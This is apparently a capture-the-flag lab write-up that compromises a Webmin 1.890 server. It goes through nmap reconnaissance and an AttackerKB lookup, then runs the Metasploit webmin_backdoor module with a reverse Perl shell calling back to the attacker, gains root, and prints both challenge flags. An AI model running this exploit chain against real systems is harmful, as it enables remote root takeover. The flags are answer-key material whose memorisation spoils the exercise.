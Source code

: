 # AttackerKB  Vulnerability Analyzer

## Links 
- IP adderess -> 10.10.181.247
- There is no website found for this Ip address
- As there is no website there so there no issue with directory enumeration

- But wait a minute -> `10000/tcp open  http    MiniServ 1.890 (Webmin httpd)` what is this than!
- AttackerKB -> `https://attackerkb.com/`
- Potential vulnerability for webmin -> `https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search`

## Port Scanning
```sh
nmap -sS -sV -O 10.10.181.247 >> ports.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 01:43 EDT
Nmap scan report for 10.10.181.247
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/8%OT=22%CT=1%CU=37736%PV=Y%DS=5%DC=I%G=Y%TM=668B7
OS:CB9%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST
OS:11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F
OS:4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M
OS:508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.95 seconds

```
- I went for `http://10.10.181.247:10000` , but its giving
```sh
Error - Document follows

This web server is running in SSL mode. Try the URL https://ip-10-10-181-247.eu-west-1.compute.internal:10000/ instead.

```
- I've also tried that url but didn't work
- I tried another url just adding https -> `https://10.10.181.247:10000`
- A login page appears that of `webmin`
- Visit the webpage generated by this service. You should encounter an error due to SSL being present.
Change the URL to use HTTPS and ignore the exception. After this, view the certificate.
What hostname can we find on the cert details? On Firefox, you can view this by
clicking on the 'i' in the URL, then the '>' in Connection, 'More Information', and then 'View Certificate' on the Security tab.

## Pointers
- Always check the current version of ssh , ubuntu, ftp and  other stuff 
- If its not the current version there could be potential vulnerability on that version. 
- You can search it in the Attackerkb


## AttackerKb 
- This is a storage for vulnerabilities and its exploits
- we will find if there any vulnerability exists in the login functionality or not
- We found there is a metasploit module for the exploit
- Analyzing the attackerKb we found the vulnerability is a  supply chain attack

## Metaspoit
```sh

msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .



msf6 exploit(linux/http/webmin_backdoor) > set lhost tun0
lhost => 10.17.88.30
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.95.101
rhosts => 10.10.95.101
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.17.88.30:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
whoami
[*] Command shell session 1 opened (10.17.88.30:4444 -> 10.10.95.101:55982) at 2024-07-08 05:51:48 -0400

root

root
cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}


```

## Flags
#### USER : THM{SUPPLY_CHAIN_COMPROMISE}
#### ROOT : THM{UPDATE_YOUR_INSTALL}



